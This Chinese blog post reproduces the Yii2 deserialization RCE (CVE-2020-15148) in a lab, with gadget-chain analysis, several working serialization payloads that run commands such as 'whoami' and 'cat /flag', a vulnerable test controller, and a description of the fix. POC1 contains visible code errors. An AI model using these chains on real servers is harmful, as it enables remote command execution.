








---
title: "PHP反序列化-Yii框架"
date: 2025-05-23T12:33:30+08:00
summary: "PHP反序列化-Yii框架"
url: "/posts/PHP反序列化-Yii框架/"
categories:
  - "PHP"
tags:
  - "Yii框架"
draft: false
---

CVE-2020-15148也算是一个很老的漏洞了，一个Yii框架的反序列化漏洞，最近一直在审框架，所以还是很乐意去复现这个框架漏洞的

## 0x01Yii框架

先放一些啰嗦话，下面是官方对yii的介绍

Yii 是一个高性能，基于组件的 PHP 框架，用于快速开发现代 Web 应用程序。 名字 Yii （读作 `易`）在中文里有“极致简单与不断演变”两重含义， 也可看作 **Yes It Is**! 的缩写。Yii 是一个通用的 Web 编程框架，即可以用于开发各种用 PHP 构建的 Web 应用。 因为基于组件的框架结构和设计精巧的缓存支持，它特别适合开发大型应用， 如门户网站、社区、内容管理系统（CMS）、 电子商务项目和 RESTful Web 服务等。

官方网站：https://www.yiiframework.com/

Yii 当前有两个主要版本：1.1 和 2.0。 1.1 版是上代的老版本，现在处于维护状态。 2.0 版是一个完全重写的版本，采用了最新的技术和协议，包括依赖包管理器 Composer、PHP 代码规范 PSR、命名空间、Traits（特质）等等。

## 0x02漏洞描述

**Yii2 2.0.38 之前的版本**存在反序列化漏洞，程序在调用unserialize 时，攻击者可通过构造特定的恶意请求执行任意命令。也就是我们的CVE-2020-15148

另外需要注意的是PHP的版本，Yii 2.0 需要 PHP 7.3.0 或以上版本支持。

## 0x03靶场搭建

版本：2.0.37

其实很简单，我们先下载一个存在漏洞的版本(2.0.37)

Github地址：https://github.com/yiisoft/yii2/releases/tag/2.0.37

有两种方法，一是用composer下载2.0.37源码

```
composer create-project --prefer-dist yiisoft/yii2-app-basic basic 2.0.37
```

二是下载源码

如果是从github下载源码的话需要配置密钥


安装好后我们运行框架

```
php yii serve
```

这里卡了一会，后面发现我的php8.1版本的不行，得换成7.3左右的

服了，vps一直有报错，不得不转战物理机



访问8080端口就可以了

## 0x04漏洞利用

### BatchQueryResult.php::__destruct()

漏洞的出发点是在`\vendor\yiisoft\yii2\db\BatchQueryResult.php`文件中



`__destruct()`：当对象被销毁时会自动调用。

一般来说反序列化的起点都是`__destruct`魔术方法，为什么不是`__wakeup`方法呢？其实这个跟开发习惯有关，一般来说`__wakeup`都是被用作一种反序列化的限制手段，所以常常反序列化的起点都是从`__destruct`方法开始的

然后我们跟进一下reset()函数



`__call()魔术方法`：在对象中调用一个不可访问方法时调用

代码92行调用了`_dataReader`属性的close方法，但是这里的`_dataReader`属性的值是可控的，所以是否能触发`__call()`魔术方法呢？这里跟进close()方法发现



存在close()方法的类并没有和我们利用的类有父子类关系，所以close()在这里是不可访问的方法，那么就会触发call()方法

所以我们全局搜索一下`__call()`方法，看看有没有能用的



### Generator.php::__call()

在**/vendor/fzaninotto/faker/src/Faker/Generator.php**下找到一个可利用的`__call()方法`

```php
public function __call($method, $attributes)
{
    return $this->format($method, $attributes);
}
```

跟进fomat方法

在同文件下找到

```php
public function format($formatter, $arguments = array())
{
    return call_user_func_array($this->getFormatter($formatter), $arguments);
}
```

这里有一个`call_user_func_array`函数


本地测试一下

```php
<?php
class test{
    public function test(){
        phpinfo();
    }
}
//$a = new test();
//$a->test();
call_user_func_array(phpinfo,array());
```

当然如果是调用类中的方法可以将第一个参数设置为数组

```php
<?php
class test{
    public function test(){
        phpinfo();
    }
}
//$a = new test();
//$a->test();
call_user_func_array(array(new test(),'test'),array());
//成功执行
```

一个可以调用函数的函数，但是这里$arguments并不可控，如果打无参数RCE就比较恶心，但是可以通过这个方法去当跳板去打

然后可以查找call_user_func的无参函数



我发现有两个地方的run方法都可以进行rce，先讲第一个

### CreateAction::run()

找到CreateAction类下的run方法

```php
public function run()
{
    if ($this->checkAccess) {
        call_user_func($this->checkAccess, $this->id);
    }
```

查看之后发现里面的两个属性都是可控的，那么就可以构造链子

## 0x05exp编写

### 链子1

```
BatchQueryResult::__destruct()->BatchQueryResult::reset()->Gernerator::__call->Gernerator::format()->CreateAction::run()
```

### POC1

```php
<?php
namespace yii\rest{
    class CreateAction {
        public $checkAccess;
        public $id;
        public function __construct($id, $checkAccess){
            $this->id = 'whoami';
            $this->checkAccess = 'system';
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;
    class Generator{
        protected $formatters=array();

        public function __construct(){
            $this->formatters['close'] = [new CreateAction() , 'run()'];
        }
    }
}

namespace yii\db {

    use Faker\Generator;

    ues Faker\Generator;
    class BatchQueryResult {
        private $_dataReader;
        public function __construct(){
            $this->_dataReader = new Generator();
        }
    }
}

namespace {
    use yii\db\BatchQueryResult;
    echo urlencode(base64_encode(serialize(new BatchQueryResult())));
}

```

然后我们写一个反序列化的入口，在controllers目录下新建一个存在反序列化点的TestController.php

```php
<?php

namespace app\controllers;

use yii\web\Controller;

class TestController extends Controller{
    public function actionTest($data){
        return unserialize(base64_decode($data));
    }
}
```

在yii框架中默认URL格式使用一个参数`r`表示路由， 并且使用一般的参数格式表示请求参数。例如，`/index.php?r=post/view&id=100`表示路由为`post/view`，参数`id`为100。

然后访问/index.php?r=test/test

传入payload



然后我们解释一下exp

先是由BatchQueryResult类的`__destruct`方法触发`__reset()`方法，然后我们设置`__dataReaderc`参数为Generator类，触发Generator类中的`__call`方法，`__call`方法会返回format方法执行的结果，我们跟进format方法

```php
public function format($formatter, $arguments = array())
{
    return call_user_func_array($this->getFormatter($formatter), $arguments);
}
```

发现format方法的参数一是getFormatter中的$formatter，并且这里利用了call_user_func_array，我们继续跟进getFormatter方法

```php
public function getFormatter($formatter)
    {
        if (isset($this->formatters[$formatter])) {
            return $this->formatters[$formatter];
        }
        foreach ($this->providers as $provider) {
            if (method_exists($provider, $formatter)) {
                $this->formatters[$formatter] = array($provider, $formatter);

                return $this->formatters[$formatter];
            }
        }
        throw new \InvalidArgumentException(sprintf('Unknown formatter "%s"', $formatter));
    }
```

这里可以看到`formatters[$formatter]`是可控的，所以我们可以利用`formatters[$formatter]`属性配合call_user_func_array函数去调用CreateAction中的run方法

```php
public function run()
{
    if ($this->checkAccess) {
        call_user_func($this->checkAccess, $this->id);
    }
```

在run方法中调用了call_user_func函数，并且两个参数可控，从而可以进行RCE

到这里我以为只有这个方法了，但是我返回去继续翻找了一下，发现在IndexAction.php下还有一个可利用的



### IndexAction.php::run()

其实和CreateAction是一样的，都是继承了Action的子类，参数是共同的，所以这里就不作过多赘述了

### 链子2

```php
BatchQueryResult::__destruct()->BatchQueryResult::reset()->Gernerator::__call->Gernerator::format()->IndexAction.php::run()
```

### POC2

```php
<?php

namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess = 'shell_exec';
            $this->id = 'cat /flag | tee 1';				//命令执行
        }
    }
}
namespace Faker {

    use yii\rest\IndexAction;

    class Generator
    {
        protected $formatters;

        public function __construct()
        {
            $this->formatters['close'] = [new IndexAction(), 'run'];
        }
    }
}
namespace yii\db{

    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;
        public function __construct()
        {
            $this->_dataReader=new Generator();
        }
    }
}
namespace{

    use yii\db\BatchQueryResult;

    echo base64_encode(serialize(new BatchQueryResult()));
}
```

## 0x06漏洞修复

2.0.38已修复，官方给`yii\db\BatchQueryResult`类加了一个`__wakeup()`函数，`__wakeup`方法在类被反序列化时会自动被调用，而这里这么写，目的就是在当BatchQueryResult类被反序列化时就直接报错，避免反序列化的发生，也就避免了漏洞。

## 0x07扩展poc1

在web267的时候用上面的链子是能打的，但是在web268调用的时候发现打不通了，说明这个yii框架还是可以继续挖掘链子的

在我继续搜索依靠`__destruct()`触发`__call()`方法的时候，发现在RunProcess类中的`__destruct()`似乎可以触发`__call()`方法

```php
public function __destruct()
{
    $this->stopProcess();
}
```

跟进stopProcess()

```php
public function stopProcess()
{
    foreach (array_reverse($this->processes) as $process) {
        /** @var $process Process  **/
        if (!$process->isRunning()) {
            continue;
        }
        $this->output->debug('[RunProcess] Stopping ' . $process->getCommandLine());
        $process->stop();
    }
    $this->processes = [];
}
```

这里看到`!$process->isRunning()`跟进isRunning()发现找不到，那这里是否可以触发`__call()`呢？

跟进processes属性

```
private $processes = [];
```

可以看到这里是可控的

那我们直接写poc

```php
<?php

namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess = 'shell_exec';
            $this->id = 'ls / | tee 1.txt';				//命令执行
        }
    }
}
namespace Faker {

    use yii\rest\IndexAction;

    class Generator
    {
        protected $formatters;

        public function __construct()
        {
            $this->formatters['isRunning'] = [new IndexAction(), 'run'];
        }
    }
}

namespace Codeception\Extension{

    use Faker\Generator;
    class RunProcess
    {
        private $processes = [];
        public function __construct(){
            $this->processes[]=new Generator();
        }
    }
}

namespace {
    use Codeception\Extension\RunProcess;

    echo urlencode(base64_encode(serialize(new RunProcess())));
}
```

在调试的过程中我遇到了一个问题

```
exp1
$this->formatters['close'] = [new IndexAction(), 'run'];
exp2
$this->formatters['isRunning'] = [new IndexAction(), 'run'];
```

我一直没搞明白这里的键的设置是为什么，然后我去翻看了`__call()`方法的说明，发现如果我们设置`__call()`的第一个参数为一个不可访问的函数的时候，就会触发`__call()`方法，而在这里的`__call`方法中有一个$method参数，这个参数就来自于format方法的$formatter，并来自于getFormatter的$formatter，也就是formatters数组中的键close和isRunning

## 0x08扩展poc2

我又回来了，不得不说这个链子还是很多的

先放poc吧，这个poc确实想不到了

https://blog.csdn.net/cosmoslin/article/details/120612714

```php
<?php
namespace yii\rest {
    class IndexAction
    {
        public function __construct()
        {
            $this->checkAccess = "system";
            $this->id = "whoami";		//RCE
        }
    }
}
namespace yii\web {
    use yii\rest\IndexAction;
    abstract class MultiFieldSession
    {
        public $writeCallback;
    }
    class DbSession extends MultiFieldSession
    {
        public function __construct()
        {
            $this->writeCallback = [new IndexAction(), "run"];
        }
    }
}
namespace yii\db {
    use yii\base\BaseObject;
    use yii\web\DbSession;
    class BatchQueryResult
    {
        private $_dataReader;
        public function __construct()
        {
            $this->_dataReader = new DbSession();
        }
    }
}
namespace {
    use yii\db\BatchQueryResult;
    echo(base64_encode(serialize(new BatchQueryResult())));
}
```

然后我们回去分析一下

这次不是找入口了，这次是找触发出口的中间链，链子的入口还是在BatchQueryResult的`__destruct()`，然后这里的话我们看看DbSession类

然后我发现这里并不是要触发`__call()`方法，而是要利用BatchQueryResult::reset()中的close()，去调用DbSession中的close()，我们看看close()

```php
public function close()
{
    if ($this->getIsActive()) {
        // prepare writeCallback fields before session closes
        $this->fields = $this->composeFields();
        YII_DEBUG ? session_write_close() : @session_write_close();
    }
}
```

这里的话挨个跟进一下发现在composeFields()方法

```php
protected function composeFields($id = null, $data = null)
{
    $fields = $this->writeCallback ? call_user_func($this->writeCallback, $this) : [];
    if ($id !== null) {
        $fields['id'] = $id;
    }
    if ($data !== null) {
        $fields['data'] = $data;
    }
    return $fields;
}
```

这里有call_user_func，然后可以利用这个函数去调用IndexAction中的run()函数，所以最终的链子就是

```
BatchQueryResult::__destruct()->BatchQueryResult::reset()->DbSession::close()->MultiFieldSession::composeFields()->IndexAction::run()
```
